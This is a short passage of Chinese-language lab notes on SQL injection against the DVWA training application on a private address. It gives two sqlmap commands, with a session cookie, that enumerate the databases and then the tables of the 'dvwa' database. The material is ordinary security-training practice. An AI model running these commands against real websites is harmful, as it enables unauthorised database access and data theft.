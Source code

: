 ![image-20250218204709376](../../_media/image-20250218204709376.png)





爆破数据库：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" --dbs
```

![image-20250218204851059](../../_media/image-20250218204851059.png)



爆破数据库中的表：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" -D dvwa --tables
```
